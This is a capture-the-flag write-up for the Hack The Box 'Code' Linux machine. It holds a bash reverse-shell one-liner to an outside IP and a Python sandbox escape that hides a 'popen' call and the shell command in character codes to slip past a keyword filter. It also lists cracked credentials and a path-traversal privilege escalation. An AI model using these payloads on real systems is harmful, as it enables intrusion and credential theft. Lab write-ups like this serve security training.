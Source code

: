 # Code HTB Easy Linux Machine
<div align="center">
  <img src="./images/code.png" alt="nmap" />
</div>


Started: 5/8/25

Pwned: 5/8/25

## Nmap Output
![nmap](./images/nmap.png)  

popen was blocked  
![keywordblock](./images/keywordblocked.png)  

RevShells basic format: bash -c 'bash -i >& /dev/tcp/10.10.14.10/4444 0>&1'  

x = ().__class__.__bases__[0].__subclasses__()
e = [c for c in x if c.__name__ == ''.join([chr(i) for i in [80,111,112,101,110]])][0]
cmd = ''.join([chr(i) for i in [
    98,97,115,104,32,45,99,32,98,97,115,104,32,45,105,32,62,38,32,
    47,100,101,118,47,116,99,112,47,49,48,46,49,48,46,49,52,46,49,48,
    47,52,52,52,52,32,48,62,38,49
]])  # bash -c 'bash -i >& /dev/tcp/10.10.14.10/4444 0>&1'
e(['/bin/bash', '-c', cmd], shell=False) 

RevShell/Foothold

Command: nc -lvnp 4444 

![revshell](./images/revshell.png)  

![userflag](./images/userflag.png)  

database.db  
![database](./images/database.png)  

crackstation  
![crackstation](./images/crackstation.png)  

development:development  
martin:nafeelswordsmaster  

sudo -l  
![sudo](./images/sudo.png)  

backy.sh  
![backy](./images/backy.png)  

Getting Root  

![task](./images/task.png)  

bypasses the filter since it removes ../ but will leave ../ for path traversal. Since it's running as sudo it will successfully grab the files  

![exploit](./images/exploit.png)  

![loot](./images/loot.png)  

We grabbed the flag but we can also grab the ssh private key of root and log into the system as root if we wanted.

